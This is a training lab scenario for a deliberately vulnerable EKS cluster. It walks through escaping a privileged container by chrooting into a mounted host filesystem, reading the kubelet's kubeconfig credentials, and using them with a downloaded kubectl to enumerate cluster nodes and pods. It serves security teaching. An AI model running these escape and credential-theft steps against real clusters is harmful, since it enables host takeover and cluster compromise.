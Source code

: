 # Scenario: Escape to the Host System

## Prerequisites

- Playground One EKS Cluster
- Vision One Container Security
- Playground One Scenarios
  - Running app: System Monitor

Ensure to have the EKS Cluster including the Scenarios up and running:

```sh
pgo --apply eks
pgo --apply scenarios
```

## Attribution

This scenario is based on [Kubernetes Goat](https://madhuakula.com/kubernetes-goat/docs/) but adapted to work an Playground One and EKS.

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the EKS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Overview

This scenario showcases the common misconfigurations and one of the error-prone security issues in Kubernetes, container environments, and the general security world. Giving privileges that are not required for things always makes security worse. This is especially true in the containers and Kubernetes world. You can also apply this scenario further and beyond the container to other systems and services based on the configuration and setup of the cluster environments and resources. In this scenario you will see a privileged container escape to gain access to the host system.

By the end of the scenario, you will understand and learn the following:

- Able to exploit the container and escape out of the docker container
- You will learn to test and exploit the misconfigured and privileged containers
- Learn about common misconfigurations and possible damage due to them for the containers, Kubernetes, and clusterized environments

## The story

Most of the monitoring, tracing, and debugging software requires extra privileges and capabilities to run. In this scenario, you will see a pod with extra capabilities and privileges including HostPath allowing you to gain access to the host system and provide Node level configuration to gain complete cluster compromise.

> ***Note:*** To get started with the scenario, navigate to `http://<loadbalancer_dns_system_monitor>`

## Goals

The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access.

> ***Tip:*** Gain access to the host system and obtain the node level kubeconfig file `/var/lib/kubelet/kubeconfig`, and query the Kubernetes nodes using the obtained configuration.

### Hints

<details>
<summary>Click here</summary>

✨ Are you still in the container?
<br><br>
See the mounted file systems, also look the capabilities available for the container using capsh 🙌<
<br><br>
✨ Escaped container?
<br><br>
You can recon the system, some interesting places to obtain the node level configuration are `/var/lib/kubelet/kubeconfig` and I hope you know how to query Kubernetes API for nodes? 🎉<br>

</details>

## Solution & Walkthrough

<details>
<summary>Click here</summary>

After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as `/host-system` is mounted.

```sh
capsh --print
```

```sh
mount
```

Now you can explore the mounted file system by navigating to the `/host-system` path

```sh
ls /host-system/
```

You can gain access to the host system privileges using `chroot`.

```sh
chroot /host-system bash
```

As you can see, now you can access all the host system resources like docker containers, configurations, etc.

Trying to use the docker client fails.

```sh
docker ps
```

```ascii
bash: docker: command not found
```

This does not work, since we're on a Kubernetes optimized node OS with no docker provided.

```sh
uname -a
```

```ascii
Linux system-monitor-6dfbdbb7d-w6mdv 5.10.184-175.749.amzn2.x86_64 #1 SMP Wed Jul 12 18:40:28 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```sh
cat /var/lib/kubelet/kubeconfig
```

```ascii
apiVersion: v1
kind: Config
clusters:
- cluster:
    certificate-authority: /etc/kubernetes/pki/ca.crt
    server: https://BD215DBE2E4127977439D904B2AD3307.gr7.eu-central-1.eks.amazonaws.com
  name: kubernetes
contexts:
- context:
    cluster: kubernetes
    user: kubelet
  name: kubelet
current-context: kubelet
users:
- name: kubelet
  user:
    exec:
      apiVersion: client.authentication.k8s.io/v1beta1
      command: /usr/bin/aws-iam-authenticator
      args:
        - "token"
        - "-i"
        - "playground-one-eks"
        - --region
        - "eu-central-1"
```

Sadly, there is no `kubectl` as well.

```sh
kubectl
```

```ascii
bash: kubectl: command not found
```

Trying to use the package manager `yum` will not solve the problem. But navigating to https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux will help:

```sh
cd
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x kubectl
```

Try to get the available nodes of our cluster:

```sh
./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes 
```

```ascii
NAME                                            STATUS   ROLES    AGE   VERSION
ip-10-0-152-251.eu-central-1.compute.internal   Ready    <none>   56m   v1.25.11-eks-a5565ad
ip-10-0-169-117.eu-central-1.compute.internal   Ready    <none>   56m   v1.25.11-eks-a5565ad
```

Can you do more?

```sh
./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get pods -A
```

```ascii
NAMESPACE           NAME                                               READY   STATUS    RESTARTS   AGE
goat                system-monitor-6dfbdbb7d-w6mdv                     1/1     Running   0          53m
kube-system         aws-load-balancer-controller-577dcc6f77-sqtfr      1/1     Running   0          92m
kube-system         aws-node-8wl6v                                     1/1     Running   0          92m
kube-system         aws-node-ksdjv                                     1/1     Running   0          92m
kube-system         cluster-autoscaler-6696cf9bff-2s52q                1/1     Running   0          92m
kube-system         coredns-6bcddfff7-hrwwl                            1/1     Running   0          92m
kube-system         coredns-6bcddfff7-kp266                            1/1     Running   0          92m
kube-system         ebs-csi-controller-7dffd5b9fd-2w7r8                6/6     Running   0          92m
kube-system         ebs-csi-controller-7dffd5b9fd-fdhfc                6/6     Running   0          92m
kube-system         ebs-csi-node-k77sx                                 3/3     Running   0          92m
kube-system         ebs-csi-node-vj6c7                                 3/3     Running   0          92m
kube-system         kube-proxy-62dls                                   1/1     Running   0          92m
kube-system         kube-proxy-mshz7                                   1/1     Running   0          92m
trendmicro-system   trendmicro-admission-controller-74d8d7f866-dv87r   1/1     Running   0          53m
trendmicro-system   trendmicro-oversight-controller-557df87c9-6c4dx    2/2     Running   0          69m
trendmicro-system   trendmicro-scan-manager-6ddb6f69b8-r85dk           1/1     Running   0          53m
trendmicro-system   trendmicro-scout-gkl4k                             2/2     Running   0          69m
trendmicro-system   trendmicro-scout-tz68w                             2/2     Running   0          69m
trendmicro-system   trendmicro-usage-controller-6944c5b55b-m8hgh       2/2     Running   0          53m
trendmicro-system   trendmicro-workload-operator-6cf5c98c6f-xq8bb      1/1     Running   0          69m
trivy-system        trivy-operator-57c774d7c4-hmnlk                    1/1     Running   0          53m
victims             java-goof-5878dd4dd-9lnst                          1/1     Running   0          53m
victims             web-app-854bdf944f-ddqcs                           1/1     Running   0          53m
```

```sh
./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes 
```

```ascii
NAME                                            STATUS   ROLES    AGE   VERSION
ip-10-0-152-251.eu-central-1.compute.internal   Ready    <none>   76m   v1.25.11-eks-a5565ad
ip-10-0-169-117.eu-central-1.compute.internal   Ready    <none>   76m   v1.25.11-eks-a5565ad
```

🎉 Success 🎉

</details>
